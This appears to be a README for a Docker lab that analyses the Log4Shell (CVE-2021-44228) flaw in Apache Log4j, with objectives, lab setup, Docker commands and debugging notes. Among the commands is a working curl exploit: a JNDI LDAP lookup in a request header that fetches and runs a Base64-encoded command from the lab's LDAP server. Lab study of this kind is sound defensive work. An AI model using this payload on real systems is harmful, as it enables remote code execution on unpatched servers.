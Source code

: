 # Apache Log4j CVE-2021-44228

## 0verview

AKA: *Log4Shell*

[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Caused and categorised by "Improper Input Validation"

Apache Log4j library [download](https://archive.apache.org/dist/logging/log4j/)

Vulnerable version: [apache-log4j-2.14.1](https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.zip)

Fixed version: [apache-log4j-2.15.0](https://archive.apache.org/dist/logging/log4j/2.15.0/apache-log4j-2.15.0-bin.zip)

Tutorial: [https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/)

## Objectives

1. Analyse Java execution flow within vulnerable application code and log4j library
1. Analyse Network traffic associated with relevant nodes (Application & LDAP Server)
1. Analyse LDAP exploit server and determine how exploit is deployed/architected

## Methodology

### Lab implementation

Docker will be used to provide a sand-boxed environment consisting of the following nodes:

- Vulnerable Application
- LDAP exploit server
- Wireshark instance (optional)
- Docker network

Docker Compose will be used to aid operation and testing.

Wireshark can either be run as a Docker instance (Linux Server Wireshark) or `tcpdump` can be utilised to capture packets and produce a pcap file for later analysis in Wireshark.

__Vulnerable Application__

For stepping through the code create a basic Java application using `log4j` for logging.

Use VSCode with remoting feature to connect to the running Container and perform runtime debugging.

__LDAP Server exploit__

Use Dockerised LDAP exploit server from [Cygenta - how to build your own demo](https://www.cygenta.co.uk/post/your-own-log4shell-demo).

__Wireshark__

Use a variation of Docker configuration found here: [https://docs.linuxserver.io/images/docker-wireshark](https://docs.linuxserver.io/images/docker-wireshark)

__Commands__

```shell
# start all services
$> docker compose up
# stop all services
$> docker compose down
# clean up all Docker artifacts (including stop all services)
$> ./scripts/cleanup.sh
# test the Docker services and network
$> ./scripts/test.sh
# test if exploit has been successful
$> docker compose exec vulnapp ls -l /tmp
# run interactive shell on tools image container
$> docker run --name tools --network example_log4j -it tools
# inside tools container
$> curl vulnapp:8080 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw==}'
$> tcpdump -i eth0 -w /tmp/dump.log &
# extract log from contanier
$> docker cp tools:/tmp/dump.log .
```

## Notes

### Log4j Lookup Feature

[Apache log4j lookups docs](https://logging.apache.org/log4j/2.x/manual/lookups.html)

### Troubleshooting

- Keep getting Error in VSCode: Java server has crashed 5 times in the last 3 minutes
> Solution: F1 -> Java: Clean the Java Language Server Workspace -> Restart & Delete

## Debugging notes

PatternLayout.toSerializable
ln: 344
iteration 8 goes bang!!!

